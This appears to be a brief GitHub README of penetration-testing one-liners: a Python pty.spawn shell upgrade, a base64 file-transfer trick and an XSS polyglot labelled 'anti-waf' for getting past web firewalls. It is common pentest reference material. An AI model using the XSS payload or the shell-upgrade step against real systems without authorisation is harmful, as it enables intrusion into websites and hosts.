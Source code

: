 # oneliners
Collection of handy one line things 

### ye olde pty 
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

### Upload not one line
```
cat archive.tar.gz | base64
cat <<EOF | base64 -d > archive.tar.gz
///// paste here the base64 encoded file
EOF
```
## pentest 

### anti-waf
```
javascript:"/*'/*`/*--><html \" onmouseover=/*&lt;svg/*/onload=alert()//>
```
